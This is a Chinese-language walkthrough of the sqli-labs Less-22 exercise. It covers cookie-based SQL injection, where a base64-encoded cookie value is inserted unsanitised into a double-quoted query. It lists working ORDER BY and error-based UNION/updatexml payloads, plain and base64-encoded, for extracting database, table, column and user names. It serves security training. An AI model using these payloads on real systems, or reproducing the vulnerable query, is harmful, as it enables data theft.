 ```yaml
---
title: less22
url: https://www.yuque.com/u29002979/ep2zrx/apfen7iyy03crkry
---
```


```bash
$sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";

$cookee = base64_decode($cookee);
			$cookee1 = '"'. $cookee. '"';
			echo "<br></font>";
			$sql="SELECT * FROM users WHERE username=$cookee1 LIMIT 0,1";
```

与Less21的唯一区别在于此关闭合方式为双引号"

成功登录后发现在Cookie处登录的信息被进行了加密，

> YOUR USER AGENT IS : Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.0.0 Safari/537.36
> YOUR IP ADDRESS IS : 192.168.31.119
> DELETE YOUR COOKIE OR WAIT FOR IT TO EXPIRE
> YOUR COOKIE : uname = YWRtaW4= and expires: Wed 16 Nov 2022 - 20:58:46
> Your Login name:admin
> Your Password:admin
> Your ID:8

<a name="DsPkr"></a>

# 判断字段数

`uname=admin" order by 4-- +`
先将语句进行base64加密，再进行注入，
`uname=YWRtaW4iIG9yZGVyIGJ5IDQtLSAr`

> Issue with your mysql: Unknown column '4' in 'order clause'

<a name="Tcgou"></a>

# 报错注入

```bash
爆破数据库名
uname=admin" union select 1,2,updatexml(1,concat(0x7e,database(),0x7e),1)-- +
uname=YWRtaW4iIHVuaW9uIHNlbGVjdCAxLDIsdXBkYXRleG1sKDEsY29uY2F0KDB4N2UsZGF0YWJhc2UoKSwweDdlKSwxKS0tICs=
爆破数据表名
uname=admin" union select 1,2,updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e),1)-- +
uname=YWRtaW4iIHVuaW9uIHNlbGVjdCAxLDIsdXBkYXRleG1sKDEsY29uY2F0KDB4N2UsKHNlbGVjdCBncm91cF9jb25jYXQodGFibGVfbmFtZSkgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEudGFibGVzIHdoZXJlIHRhYmxlX3NjaGVtYSA9IGRhdGFiYXNlKCkpLDB4N2UpLDEpLS0gKw==
爆破字段名
uname=admin" union select 1,2,updatexml(1,concat(0x7e,(select (column_name) from information_schema.columns where table_name='users' limit 8,1),0x7e),1)-- +
uname=YWRtaW4iIHVuaW9uIHNlbGVjdCAxLDIsdXBkYXRleG1sKDEsY29uY2F0KDB4N2UsKHNlbGVjdCAoY29sdW1uX25hbWUpIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLmNvbHVtbnMgd2hlcmUgdGFibGVfbmFtZT0ndXNlcnMnIGxpbWl0IDgsMSksMHg3ZSksMSktLSAr
爆破字段
uname=admin" union select 1,2,updatexml(1,concat(0x7e,(select username from users limit 0,1),0x7e),1)-- +
uname=admin" union select 1,2,updatexml(1,concat(0x7e,(select username from users limit 0,1),0x7e),1)-- +
```
